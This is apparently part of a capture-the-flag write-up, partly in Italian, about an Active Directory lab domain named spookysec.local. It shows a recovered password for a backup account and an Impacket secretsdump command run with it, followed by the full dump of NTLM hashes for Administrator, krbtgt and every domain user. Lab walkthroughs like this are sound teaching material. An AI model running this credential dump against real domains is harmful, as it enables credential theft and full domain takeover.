 ![](images/image2.png)

ottenendo questa stringa

backup@spookysec.local:backup2517860

Privilege escalation

Impacket secretsdump.py
=======================

└─$ python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@spookysec.local  
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation  
  
\[-\] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc\_s\_access\_denied    
\[\*\] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)  
\[\*\] Using the DRSUAPI method to get NTDS.DIT secrets  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::  
spookysec.local\\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::  
spookysec.local\\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::  
spookysec.local\\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::  
spookysec.local\\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::  
spookysec.local\\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::  
spookysec.local\\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::  
spookysec.local\\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::  
spookysec.local\\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::  
spookysec.local\\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::  
spookysec.local\\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::  
spookysec.local\\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::  
spookysec.local\\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::  
spookysec.local\\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::  
spookysec.local\\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::  
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:9f4794ce7dc3eb50f81a6e15ae45dbd2:::  
\[\*\] Kerberos keys grabbed  